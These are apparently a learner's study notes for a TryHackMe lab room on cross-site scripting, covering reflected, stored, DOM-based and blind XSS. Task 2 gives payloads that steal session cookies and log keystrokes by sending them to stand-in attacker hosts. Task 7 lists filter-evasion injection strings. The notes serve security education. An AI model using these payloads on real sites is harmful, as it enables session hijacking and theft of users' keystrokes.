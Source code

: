 # Room
https://tryhackme.com/room/xssgi

# Task 1 - Intro
* XSS - Cross-site scripting
* an injection attack where malicious JavaScript is injected into a web app and executed by other users

# Task 2 - XSS Payloads
* Payload - JavaScript code that executes
* Payload parts
    * Intention - what you want the JavaScript code to do
    * Modification - the change you need to make it execute
* Proof of Concept
    * Simple code to test whether XSS may be possible
    * <script>alert('XSS');</script>
* Session Stealing
    * Grab a user token such as a cookie
    * <script>fetch('https://hacker.cc/steal?cookie=' + btoa(document.cookie));</script>
        * https://developer.mozilla.org/en-US/docs/Web/API/fetch
        * https://developer.mozilla.org/en-US/docs/Web/API/btoa
* Key Logger
    * Grab keystrokes as a user types
    * <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
        * https://developer.mozilla.org/en-US/docs/Web/API/GlobalEventHandlers/onkeypress
* Business Logic
    * Call a built in web app function in a way it wasn't intended to change data

# Task 3 - Reflected XSS
* Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation
* Impact - the malicious link could execute code on the victim browswer revealing session information

# Task 4 - Stored XSS
* Store XSS happens when the payload is stored on the web application and is executed everytime other users visit the app
* Impact - the malicious code could redirect to another site, steal a cookie, or perform other actions

# Task 5 - DOM Based XSS
* DOM - Document Object Model
* DOM is a programming interface for HTML and XML documents, it represents a page so that programs can change the structure, style and content
* Exploit - DOM Based XSS happens directly in the browser without any new pages being loaded
* Unsafe method example: eval()

# Task 6 - Blind XSS
* Blind XSS is similar to Stored XSS, with the difference being you can't see your payload working
* Impact - steal cookies and other sensitive information
* Tools
    * https://xsshunter.com/

# Task 7 - Testing
* Step through different XSS payloads
    * <script>alert('THM');</script>
    * "><script>alert('THM');</script>
    * </textarea><script>alert('THM');</script>
    * ';alert('THM');//
    * <sscriptcript>alert('THM');</sscriptcript>
    * /images/cat.jpg" onload="alert('THM');

# Task 8 - Blind XSS Example
* Step through the Blind XSS Example